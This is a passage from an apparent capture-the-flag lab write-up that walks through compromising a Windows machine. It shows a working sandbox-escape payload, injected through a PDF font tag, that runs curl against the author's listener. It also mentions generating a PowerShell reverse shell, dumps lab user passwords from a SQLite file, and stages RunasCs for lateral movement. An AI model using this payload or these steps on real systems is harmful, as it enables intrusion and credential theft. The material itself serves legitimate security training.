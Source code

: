 Trying to inject the payload into the `Justification` we get character exceeded error.

![img](/images/solarlab/character_exceeded.png)

Same error even when we try to bypass it with burp.

Injecting in other field `Contact Phone Number`, we get a 500 internal error.

![img](/images/solarlab/other_field.png)

Using curl as the payload and running an http server in our host, we get a connection request.
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl http://10.10.16.18:8090') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

![img](/images/solarlab/http_server_8090.png)

Since we are dealing with a windows server, let's craft a powershell payload to get reverse shell.

Use [revshell](http://revshells.com)to generate a reverse shell.

![img](/images/solarlab/request_burp.png)

![img](/images/solarlab/blake_user.png)

We now have user on the system. `C:\Users\blake\Desktop\user.txt`
 ___

#### Blake

After gaining access to user blake, we enumerate further into the system.

![img](/images/solarlab/openfire.png)

There exists another user `openfire`. We can try switching to that user to enumerate further.

In `C:\Users\blake\Documents\app\instances\users.db` we can get credentials for other users. 

![img](/images/solarlab/users_db.png)

Download the `users.db` file and open it.

```sql
INSERT INTO user VALUES(1,'blakeb','ThiscanB3typedeasily1@');
INSERT INTO user VALUES(1,'claudias','07poiuytrewq');
INSERT INTO user VALUES(1,'blakeb','HotP!fireguard');
```

There is `HotP!fireguard` password for alexanderk and we can try those passwords for the user `openfire`. We also upload `RunasCs.exe` which can help us run commands as another user once we obtain the credentials.
